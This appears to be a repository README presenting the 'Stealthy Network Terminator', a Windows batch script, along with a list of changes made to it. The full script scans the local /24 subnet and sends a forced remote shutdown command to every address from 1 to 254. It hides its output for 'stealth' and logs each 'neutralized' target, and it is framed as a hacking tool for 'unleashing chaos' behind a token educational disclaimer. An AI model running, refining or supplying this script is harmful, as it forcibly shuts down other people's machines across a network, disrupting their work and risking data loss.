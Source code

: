# Stealthy Network Terminator - Updated Version

This document outlines the updates and enhancements made to the Stealthy Network Terminator (SNT) script, improving its functionality, robustness, and clarity.

## Updates and Enhancements

1. **Log File Setup:**
   - A log file is created to record all activities performed by the script. This includes successes, failures, and other important events, aiding in auditing and troubleshooting.

2. **Space Removal from IP Address:**
   - Spaces are removed from the local IP address string to ensure proper formatting and functionality.

3. **Improved IP Address Retrieval:**
   - The command for retrieving the local IP address is updated to include the `/i` switch for case-insensitive matching, ensuring compatibility with different systems.

4. **Enhanced Error Handling:**
   - Additional checks are implemented to handle cases where the local IP address or network range cannot be retrieved, providing clear error messages and aborting the script if necessary.

5. **Summary Display:**
   - A summary section at the end of the script displays the total number of successful and failed shutdown attempts. This provides a quick overview of the script's impact on the network.

6. **Success and Error Counters:**
   - Separate counters (`success_count` and `error_count`) are used to track the number of successful and failed shutdown commands, respectively.

7. **Detailed Comments:**
   - Additional comments are included throughout the script to explain the purpose and functionality of each section, making it easier to understand and maintain.

8. **Stealth and Efficiency:**
   - The script includes messages indicating when it is entering and exiting stealth mode, enhancing its narrative style and making it clear when the script is actively performing operations.

9. **Removed Null Redirects from Comments:**
   - Log entries are now directly written to the log file, and console output is redirected to `nul` for shutdown commands to maintain stealth.

## Script Breakdown

```batch
@echo off
setlocal enabledelayedexpansion

REM Stealthy Network Terminator - Developed by FLUFFY

REM This script is for educational purposes only. Misuse for malicious intent is illegal.

REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
REM It silently infiltrates your local network, wreaking havoc with a single click.

REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.

REM Get ready to unleash chaos! Initiating SNT...

REM Log file setup
set "logfile=%~dp0SNT_log.txt"
echo SNT Execution Log - %date% %time% > "%logfile%"
echo ======================================== >> "%logfile%"

REM Get local IP address
for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr /i "IPv4"') do (
    set "local_ip=%%i"
)
set "local_ip=%local_ip: =%" REM Remove spaces

if "%local_ip%"=="" (
    echo Failed to retrieve local IP address. Aborting operation. >> "%logfile%"
    echo Failed to retrieve local IP address. Aborting operation.
    exit /b 1
)

echo Local IP Address: %local_ip% >> "%logfile%"

REM Extract network range
for /f "tokens=1,2,3 delims=." %%a in ("%local_ip%") do (
    set "network_range=%%a.%%b.%%c."
)

if "%network_range%"=="" (
    echo Failed to extract network range. Aborting operation. >> "%logfile%"
    echo Failed to extract network range. Aborting operation.
    exit /b 1
)

echo Network Range: %network_range%0 >> "%logfile%"

REM Initiating shutdown sequence for all devices in the network range
echo Stealth mode activated... Engaging the SNT... >> "%logfile%"
echo Stealth mode activated... Engaging the SNT...
set "error_count=0"
set "success_count=0"

for /L %%i in (1,1,254) do (
    set "ip=%network_range%%%i"
    shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
    if errorlevel 1 (
        echo Failed to send shutdown command to !ip!... Evading detection. >> "%logfile%"
        set /a "error_count+=1"
    ) else (
        echo Shutdown command sent to !ip!... Target neutralized. >> "%logfile%"
        set /a "success_count+=1"
    )
)

REM Display summary
echo. >> "%logfile%"
echo Summary: >> "%logfile%"
echo ===================== >> "%logfile%"

if %error_count% gtr 0 (
    echo %error_count% devices failed to shut down... Potential resistance detected. >> "%logfile%"
    echo %error_count% devices failed to shut down... Potential resistance detected.
) else (
    echo All devices in the network range have received shutdown command... Network domination achieved! >> "%logfile%"
    echo All devices in the network range have received shutdown command... Network domination achieved!
)

echo %success_count% devices were successfully shut down. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows.

pause
```

These improvements make the script more robust, informative, and easier to follow, while maintaining its functionality.
